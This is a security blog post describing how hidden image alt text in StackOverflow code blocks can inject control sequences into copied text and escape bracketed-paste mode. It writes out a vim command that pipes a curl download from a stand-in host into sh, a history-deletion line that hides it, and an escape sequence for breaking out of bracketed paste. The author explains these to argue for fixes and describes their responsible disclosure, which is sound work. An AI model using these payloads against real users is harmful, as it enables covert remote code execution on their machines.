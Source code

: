 ```yaml
---
layout: post
title: Clipboard subversion on StackOverflow
---
```

Because Markdown is really a mixture of Markdown syntax and raw HTML to
fill in gaps where Markdown can't do the job, having user-generated
content in Markdown format doesn't help to curb malicious content.
Users are still publishing HTML and have opportunities to embed
something malicious or sneaky.

In the case of StackOverflow, you end up being able to do things like
switch to `<pre>` formatting without escaping all of the contained text
as raw code; so you can embed HTML in the blocks which look like the
code you would want to copy-paste, but with surprise semantics.

The obvious thing is to put some text in a block marked invisible, but
there are mitigations preventing that because that would be a sneaky
thing to do.  Instead you can embed images, and provide alt text for
those images, and you can make those images practically invisible,
and when people copy the text in that code block they'll also
pick up the alt text which they couldn't see on the web page.

Like so:
```markdown
Here is my solution:

<pre>my<img src="https://example.com/invisible_image.gif" alt=" malicious" /> code</pre>

It's really good!
```

You can go try things out in a [sandbox][].  Be warned that not
everything that appears in the preview window is going to turn out
exactly the same once you post it.

Imagine the possibilities!

And yes, I _have_ reported those possibilities which I could imagine to
Stack Exchange.  More on that later.

If you're clever then you might be able to drop in an extra character
somewhere which has a profound effect on the meaning of the code.

You can also emulate non-printing keystrokes by sending their escape
sequences or control codes.  This leads applications to take actions
based on those keystrokes rather than inserting them into an edit buffer
as plain old text.

What sort of keystrokes might you insert?  It depends on where you
expect that the text will be pasted.  Maybe a newline, to make a command
execute before the user is ready; and/or some backspaces to subtly
modify the text after it's been reviewed (replace an 8 with an &, for
example).

But those can be detected easily.  Something more nefarious would be to
target a text editor.  Let's take a crack at vim, for example.
To maximise the chances that the user will be using vim when they
paste your text try offering something to be pasted somewhere like
`~/.vimrc`.  If somebody wants to modify that file what editor do you
think they're going to use?  Typically not emacs.

So if you know you're in vim you could embed something like an escape
character, to enter command mode, and then some commands, like these
ones:

```vim
:call system('(curl -s https://example.com/evilcode|sh)&')
:call histdel('cmd','evilcode')
```

The first executes a shell to get curl to download some code and run it;
and it does so in the background rather than waiting for it to finish.
The second deletes every history entry containing `evilcode`, so it
deletes evidence of our malicious act and, conveniently, it deletes
itself as well.

After that drop back into insert mode and keep adding plausible text to
the file to clear the status line of the result of the last command.

Notice that these are both short commands which will almost certainly
fit on one line.  If they're longer then there's a much greater risk
that the drawing and redrawing of a multi-line command buffer will be
visible to the user, if only in a brief flash which might attract
unwanted attention.

And tere we go.  Running arbitrary code on a random SO user's computer,
and they can't see us doing it!  What fun!

Would I be telling you this if it was really so easy?  No.  OK, maybe.
But it's not.

To mitigate this the terminal and application or shell should be using
[bracketed paste][], which ensures that pasted text is surrounded by
delimiters which indicate that it shouldn't be interpreted as escape
sequences but raw text to be inserted into the file or whatever.

But those delimiters are what?  They're escape sequences.  So you just
put the end marker for bracketed paste into your text in order to make
everything after that be interpreted by the application as keyboard
input again -- just like before bracketed paste was a thing.

Like so:
```html
<img ... alt="&#27;[201~ keyboard input here" />
```

Thankfully a lot of terminals (and after a few months of prodding developers, a few more terminals) strip out some control codes
from pasted text, and this breaks the ability to embed the codes
necessary to escape bracketed paste mode this way.

OSX's Terminal.app even brings up a message box explicitly telling you
you're under attack if it sees the relevant escape sequence.  I think
that's great.  Most other terminals just strip out control codes in some
way or other.

I can't promise that all terminals are filtering correctly, though.

But of course there's yet another potential weakness.  If you can get an
incomplete escape sequence sent then the application can be tricked into
_missing_ the begin-bracketed-paste escape sequence.  To illustrate this
you can simply hit Escape right before pasting something into the
terminal when it should be using bracketed paste.  The resulting
double-escape can cause the bracketed paste opening to be mis-parsed, so
everything that follows is still seen as keystrokes.  You might not be
able to send escapes, but you might still get backspace and newline
through.

To set up such preconditions might take a bit of network timing
manipulation, or remarkable knowledge of unfixed bugs in termcap
entries, or some kind of social engineering to exploit this, so maybe
we're all safe.

I can't promise that, though.

So you might be asking "where's the responsible disclosure?".  Well, I
went through it all years ago.  I tried to cut this off at StackOverflow
first (don't let people embed surprise text, don't let people embed
control codes in text), and then in the browser (don't copy control
codes embedded in HTML text), and then in some terminals (don't let
escape sequences escape the esape sequence that says to ignore other
escape sequences).  For the most part the issue was dismissed as
somebody else's problem, and everybody preferred to keep things as they
are rather than risk breaking some unspecified case which somebody might
be using legitimately.

The only people to take me seriously were Apple, and I got an SVE out of
it for my efforts.  That's probably because I gave them a whole proof of
concept which ran arbitrary code and made it invisible to the user that
arbitrary code had been run (except that I waved a flag to say it had
happened to prove it).

Of course there are still gaps that I see.  There will always be gaps
when systems we rely on are assembled the way they are.  There is a
_lot_ I do not agree with in the way things were designed, here.  The
intrinsic weakness of layers upon layers of escape sequences is absurd
to me, but it's also industry standard and an evergrowing problem as
people design more systems which function this way.  It's become
normalised and there's no stopping it anymore.

The other thing that frustrates me about reporting
vulnerabilities is when they're only superficially addressed.
Just enough to stop me digging any deeper.
When the front door is open you can make a case for security in depth
by pointing out consequential weaknesses behind the door and asking for them all
to be fixed, but too often the reaction is to just close the
door.  What happens when somebody else finds an open window?

Maybe by the time you read this the ability to embed image alt text will have been superficially addressed and you'll have to look for an open window.  Good luck!

[bracketed paste]: <https://en.wikipedia.org/wiki/Bracketed-paste>
[sandbox]: <https://meta.stackexchange.com/q/3122/227423>
[My PoC]: <https://security.stackexchange.com/a/183377>
